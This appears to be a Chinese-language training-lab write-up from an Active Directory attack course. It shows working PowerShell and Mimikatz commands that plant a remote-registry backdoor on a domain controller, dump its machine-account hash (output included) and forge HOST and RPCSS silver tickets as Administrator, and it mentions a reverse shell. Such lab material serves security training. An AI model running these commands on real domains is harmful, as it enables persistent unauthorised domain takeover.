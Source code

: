 

### 无管理员密码的情况下从目标机器上dump出哈希

在DC上修改权限，允许本账号（student366）远程dump出哈希，在DAshell
```
Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Trustee student366 -Verbose
```

在学生shell
引入框架
```
PS C:\ad> . .\RACE.ps1
```

dump出dcorp-dc这台机器的哈希
```
PS C:\ad> Get-RemoteMachineAccountHash -ComputerName dcorp-dc.dollarcorp.moneycorp.local

ComputerName                        MachineAccountHash
------------                        ------------------
dcorp-dc.dollarcorp.moneycorp.local 2b3cc837d80b9f5f69271cdfe5433822
```

现在我们有了这台机器的哈希，可以用来制作银票

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:2b3cc837d80b9f5f69271cdfe5433822 /user:Administrator /ptt"'
```

基于HOST服务的银票

![image-20220307222449438](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220307222449438.png)

基于RPCSS服务的银票

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:2b3cc837d80b9f5f69271cdfe5433822 /user:Administrator /ptt"'
```



![image-20220307222528731](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220307222528731.png)

可以建一个定时任务反弹DC这台服务器的shell



# Learning Objective 14:
```Task
● Using the Kerberoast attack, crack password of a SQL server service account.
```

